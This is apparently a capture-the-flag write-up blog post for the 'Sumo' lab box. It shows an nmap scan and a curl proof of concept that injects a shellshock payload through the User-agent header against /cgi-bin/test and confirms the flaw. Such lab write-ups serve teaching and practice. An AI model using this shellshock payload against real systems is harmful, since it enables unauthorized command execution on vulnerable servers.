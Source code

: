 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sumo-1,480/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
As always we are starting with a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.87
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 16:26 EST
Nmap scan report for 192.168.150.87
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```

On port 80 there is a web server with a default landing page.  
> Using `gobuster` on this website reveals that there is a resource named `/cgi-bin/test`. So it might be a good idea to test for the classic `shellshock` vulnerability.
{: .prompt-info }

---

# exploitation
## shellshock on port 80 (`/cgi-bin/test`)
### proof of concept
```bash
$ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://192.168.150.87/cgi-bin/test
vulnerable
Content-type: text/html

CGI Default !
```

> Yes! We confirmed that there is a `shellshock` vulnerability.
{: .prompt-info }
